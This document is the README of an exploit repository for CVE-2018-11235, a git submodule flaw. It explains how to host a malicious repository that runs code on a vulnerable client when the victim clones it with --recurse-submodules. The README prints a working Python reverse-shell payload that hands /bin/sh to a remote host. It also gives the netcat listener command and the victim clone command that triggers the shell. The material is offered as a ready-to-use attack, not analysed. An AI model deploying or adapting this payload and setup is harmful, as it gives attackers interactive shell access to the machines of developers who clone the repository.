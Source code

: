 Headers
=========

Exploit Title: Clone and Pwn<br />
Date: June 4th, 2018<br />
Exploit Author: Alejandro Caceres<br />
Vendor Homepage: https://git-scm.com/<br />
Software Link: https://git-scm.com/downloads<br />
Version: arbitrary code is executed on git client versions In Git before 2.13.7, 2.14.x before 2.14.4, 2.15.x before 2.15.2, 2.16.x before 2.16.4, and 2.17.x before 2.17.1<br />
Tested on: Linux: Ubuntu, Mint<br />
CVE : CVE-2018-11235<br />


Exploit for CVE-2018-11235 Usage
==============================

CVE-2018-11235, dubbed clone and pwn here, creates a malicious git repo that exploits a bug in git. When the repo is cloned using the
--recurse-submodules flag, arbitrary code is executed on git client versions In Git before 2.13.7, 2.14.x before 2.14.4, 2.15.x before
2.15.2, 2.16.x before 2.16.4, and 2.17.x before 2.17.1.

To use this module simply put it on a server with direct internet access (e.g. AWS, digital ocean) and pop open `evil.sh`. It will look
something like the following:

```
#!/usr/bin/python

EXTERN_IP="127.0.0.1"
EXTERN_PORT=8080

#reverse shell to IP EXTERN_IP and port EXTERN_PORT
import socket, subprocess, os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((EXTERN_IP, EXTERN_PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Set EXTERN_IP and EXTERN_PORT to the IP (external) and port you'd like to receive your reverse shell on. A reverse shell can be received with something like:

`nc -l <EXTERN_IP> EXTERN_PORT` e.g. `nc -l 193.23.23.32 8080`

Or with Metasploit's generic shell module. Once the user has run the command `git clone --recurse-submodules git://<your ip>/repo dest_dir` you will receive a reverse shell.

If you're having trouble running multiple times (or after a failed attempt) check the following:

- Run ./clean.sh, note this will delete all data in /tmp
- check the processes with `ps aux | grep git` to ensure you aren't already running gitdaemon. Kill any gitdaemon processes.

Acknowledgements
----------------

Code derived from [@peff](https://github.com/peff)'s [git patch][] (look for
the `t/t7415-submodule-names.sh` test file).

As such, this repository is published under the GNU General Public License
version 2.

Additional fix for older versions of git courtesy of
[@atorralba](https://github.com/atorralba)
([details in this post](https://atorralba.github.io/CVE-2018-11235/)).

[git patch]: https://github.com/git/git/commit/0383bbb9015898cbc79abd7b64316484d7713b44

This script adapted from https://github.com/Rogdham/CVE-2018-11235, much love and credit

=======
# clone_and_pwn
Exploits CVE-2018-11235

By @_hyp3ri0n and @mehaase